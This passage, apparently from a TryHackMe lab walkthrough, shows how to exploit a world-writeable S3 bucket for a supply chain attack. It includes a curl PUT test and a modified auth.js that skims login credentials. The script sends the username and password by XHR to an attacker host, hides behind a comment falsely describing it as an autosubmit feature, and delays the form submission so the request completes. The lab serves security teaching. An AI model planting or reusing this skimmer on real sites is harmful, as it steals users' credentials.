If we go back one step in the request to http://cdn.tryhackme.loc:9444/libraries, we can see that this seems to be an S3 bucket hosting the dependency:

```xml
<?xml version="1.0" encoding="UTF-8"?><ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
```
A quick way to see if the team perhaps misconfigured the S3 bucket to grant world-writeable permissions would be to try a simple PUT request:

```shell
curl -X PUT http://cdn.tryhackme.loc:9444/libraries/test.js -d "Testing world-writeable permissions"
```

Running this request, it seems that we get an HTTP 200 OK. We can also see that we have the ability to download this new file using http://cdn.tryhackme.loc:9444/libraries/test.js. This is looking positive for a supply chain attack! At this point, there are several different ways we could go about exploiting this world-writeable S3 bucket to cause a supply chain attack, but we will keep it simple by embedding a credential skimmer that will send us the user's credentials when they click submit.

Download the auth.js dependency and modify the code to look something like this:

```js
//This is our shared authentication library. It includes a really cool function that will autosubmit the form when a user presses enter in the password textbox!

var input = document.getElementById('txtPassword');
input.addEventListener("keypress", function(event) {    
	if (event.key == "Enter") {
		event.preventDefault();
        try {
            const oReq = new XMLHttpRequest();
            var user = document.getElementById('txtUsername').value;
            var pass = document.getElementById('txtPassword').value;
            oReq.open("GET", "http://IPADDRESS:7070/item?user=" + user + "&pass=" + pass);
            oReq.send();
        }
        catch(err) {
            console.log(err);
        }
		function sleep (time) {
                    return new Promise((resolve) => setTimeout(resolve, time));
                }
                sleep(5000).then(() => {
    		    document.getElementById("loginSubmit").click();
                });
	}
});

```

The injection is fairly simple. Once the user presses enter to submit their credentials, we make an XHR (XMLHTTPRequest) request to our host, where the username and password of the target are embedded as parameters in the request. You will notice some lines of code for the creation of a sleep function and then using said sleep function before the button is clicked. This is to ensure that the malicious XHR request has completed before the page transition occurs, otherwise a modern browser would stop the request from occurring.
